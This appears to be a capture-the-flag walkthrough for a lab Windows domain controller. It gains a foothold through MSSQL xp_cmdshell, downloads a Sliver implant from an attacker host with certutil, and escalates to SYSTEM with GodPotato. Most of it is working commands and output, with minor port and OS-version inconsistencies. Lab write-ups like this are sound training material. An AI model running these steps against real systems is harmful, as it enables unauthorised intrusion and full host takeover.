Connecting to 10.10.14.204:31337 ...
[*] Loaded 23 aliases from disk
[*] Loaded 151 extension(s) from disk
.------..------..------..------..------..------.
|S.--. ||L.--. ||I.--. ||V.--. ||E.--. ||R.--. |
| :/\: || :/\: || (\/) || :(): || (\/) || :(): |
| :\/: || (__) || :\/: || ()() || :\/: || ()() |
| '--'S|| '--'L|| '--'I|| '--'V|| '--'E|| '--'R|
`------'`------'`------'`------'`------'`------'
All hackers gain assist
[*] Server v1.5.43 - e116a5ec3d26e8582348a29cfd251f915ce4a405
[*] Welcome to the sliver shell, please type 'help' for options
[*] Check for updates with the 'update' command
sliver >
Generate an implant
sliver > generate -l -G -t 240 -m 10.10.14.204:8443 -a amd64 -o windows -j 60 -s a.exe
[*] Generating new windows/amd64 implant binary
[!] Symbol obfuscation is disabled
[*] Build completed in 2s
[*] Implant saved to /home/notroot/htb/machines/breach/a.exe
Serve it
┌──(notroot㉿elysium)-[(master) 1 ~/htb/machines/breach]
└─$ python3 -m http.server 443
Serving HTTP on 0.0.0.0 port 8443 (http://0.0.0.0:8443/) ...
On the mssqlclient, use xp_cmdshell to download the implant to the host
SQL (BREACH\Administrator dbo@master)> xp_cmdshell cmd.exe /c certutil -urlcache -split -f http://10.10.14.204:443/a.exe \windows\tasks\a.exe
output
---------------------------------------------------
**** Online ****
000000 ...
988a00
CertUtil: -URLCache command completed successfully.
NULL
Invoke the implant
SQL (BREACH\Administrator dbo@master)> xp_cmdshell cmd.exe /c \windows\tasks\a.exe
The user context is high integrity, with SeImpersonatePrivilege.
PS C:\Windows\system32> whoami /groups
whoami /groups
GROUP INFORMATION
-----------------
Group Name Type SID Attributes
========================================== ================ =============================================================== ==================================================
Everyone Well-known group S-1-1-0 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users Alias S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE Well-known group S-1-5-6 Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON Well-known group S-1-2-1 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users Well-known group S-1-5-11 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization Well-known group S-1-5-15 Mandatory group, Enabled by default, Enabled group
NT SERVICE\MSSQL$SQLEXPRESS Well-known group S-1-5-80-3880006512-4290199581-1648723128-3569869737-3631323133 Enabled by default, Enabled group, Group owner
LOCAL Well-known group S-1-2-0 Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity Well-known group S-1-18-1 Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level Label S-1-16-12288
PS C:\Windows\system32> whoami /priv
whoami /priv
PRIVILEGES INFORMATION
----------------------
Privilege Name Description State
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token Disabled
SeIncreaseQuotaPrivilege Adjust memory quotas for a process Disabled
SeMachineAccountPrivilege Add workstations to domain Disabled
SeChangeNotifyPrivilege Bypass traverse checking Enabled
SeManageVolumePrivilege Perform volume maintenance tasks Enabled
SeImpersonatePrivilege Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege Create global objects Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
PS C:\Windows\system32> whoami /user
whoami /user
USER INFORMATION
----------------
User Name SID
================ =============================================
breach\svc_mssql S-1-5-21-2330692793-3312915120-706255856-1115
Escalate¶
Upload GodPotato.exe
sliver (COLOURFUL_GUILTY) > upload /var/www/html/GodPotato-NET4.exe /windows/tasks/godpotato.exe
[*] Wrote file to C:\windows\tasks\godpotato.exe
Loosen dacls around the implant
$path="c:\windows\tasks"; (Get-ChildItem -path $path\* -Recurse).FullName | % {$Acl = Get-ACL $_; $AccessRule= New-Object System.Security.AccessControl.FileSystemAccessRule("Everyone","FullControl","none","none","Allow");$Acl.AddAccessRule($AccessRule);Set-Acl $_ $Acl}
Godpotato for escalation
PS C:\Windows\system32> cd \windows\tasks
cd \windows\tasks
PS C:\windows\tasks> .\godpotato.exe -cmd "cmd.exe /c .\a.exe"
.\godpotato.exe -cmd "cmd.exe /c .\a.exe"
[*] CombaseModule: 0x140732047294464
[*] DispatchTable: 0x140732049885048
[*] UseProtseqFunction: 0x140732049177392
[*] UseProtseqFunctionParamCount: 6
[*] HookRPC
[*] Start PipeServer
[*] CreateNamedPipe \\.\pipe\01d890f9-0469-4a71-8628-fee24a4b0d37\pipe\epmapper
[*] Trigger RPCSS
[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046
[*] DCOM obj IPID: 00005802-03c8-ffff-60ec-ae3827a25927
[*] DCOM obj OXID: 0x6a8455b40cabdba3
[*] DCOM obj OID: 0xa9eaaee4bb2b2694
[*] DCOM obj Flags: 0x281
[*] DCOM obj PublicRefs: 0x0
[*] Marshal Object bytes len: 100
[*] UnMarshal Object
[*] Pipe Connected!
[*] CurrentUser: NT AUTHORITY\NETWORK SERVICE
[*] CurrentsImpersonationLevel: Impersonation
[*] Start Search System Token
[*] PID : 916 Token:0x628 User: NT AUTHORITY\SYSTEM ImpersonationLevel: Impersonation
[*] Find System Token : True
[*] UnmarshalObject: 0x80070776
[*] CurrentUser: NT AUTHORITY\SYSTEM
[*] process start with pid 3004
On the new session, I am system.
sliver (COLOURFUL_GUILTY) > info
Session ID: c80f5dd8-d782-4bbf-abf6-1b18fb9fd2f5
Name: COLOURFUL_GUILTY
Hostname: BREACHDC
UUID: 91753042-9532-69dc-dbc7-e9484b42f13e
Username: NT AUTHORITY\SYSTEM
UID: S-1-5-18
GID: S-1-5-18
PID: 7056
OS: windows
Version: Server 2016 build 20348 x86_64
Locale: en-US
Arch: amd64
Active C2: mtls://10.10.14.204:8443
Remote Address: 10.129.38.236:63285
Proxy URL:
Reconnect Interval: 1m0s
First Contact: Sat Oct 25 03:51:30 PDT 2025 (17s ago)
Last Checkin: Sat Oct 25 03:51:30 PDT 2025 (17s ago)
sliver (COLOURFUL_GUILTY) > getuid
S-1-5-18
sliver (COLOURFUL_GUILTY) > whoami
Logon ID: NT AUTHORITY\SYSTEM
[*] Current Token ID: NT AUTHORITY\SYSTEM
Flag
sliver (COLOURFUL_GUILTY) > cat c:/users/administrator/desktop/root.txt
fc98f418f94f8cdb9a30ef026fe64345